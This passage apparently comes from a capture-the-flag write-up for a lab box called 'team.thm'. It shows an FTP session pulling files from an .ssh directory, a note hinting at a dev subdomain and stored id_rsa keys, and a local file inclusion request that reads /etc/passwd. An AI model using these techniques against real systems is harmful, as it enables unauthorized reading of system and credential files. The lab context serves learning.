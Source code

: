   ```
  226 Transfer complete.
  269 bytes received in 00:00 (5.61 KiB/s)
  ftp> cd ..
  250 Directory successfully changed.
  ftp> cd .ssh
  250 Directory successfully changed.
  ftp> ls -al
  200 EPRT command successful. Consider using EPSV.
  150 Here comes the directory listing.
  drwx------    2 1002     1002         4096 Jan 15  2021 .
  drwxr-xr-x    5 65534    65534        4096 Jan 15  2021 ..
  -rw-r--r--    1 1002     1002          222 Jan 15  2021 known_hosts
  226 Directory send OK.
  ftp> get known_hosts
  local: known_hosts remote: known_hosts
  200 EPRT command successful. Consider using EPSV.
  150 Opening BINARY mode data connection for known_hosts (222 bytes).
  100% |************************************************************************|   222      214.01 KiB/s    00:00 ETA
  226 Transfer complete.
  222 bytes received in 00:00 (4.56 KiB/s)
  ```

- Note about new site gives us another domain. Add it to `/etc/hosts` and visit it.

  ```
  cat New_site.txt 
  Dale
          I have started coding a new website in PHP for the team to use, this is currently under development. It can be
  found at ".dev" within our domain.
  
  Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.
  
  Gyles
  ```

---

## 🌐 Web Exploitation 

- After visiting `http://dev.team.thm/`, there is a link for team share. On that link there is a potential LFI, I tried it with classic `/etc/passwd` and it worked.

  ```
  http://dev.team.thm/script.php?page=/etc/passwd

  root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin
  sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/no/
  [SNIP!]run/sshd:/usr/sbin/nologin
  ```
  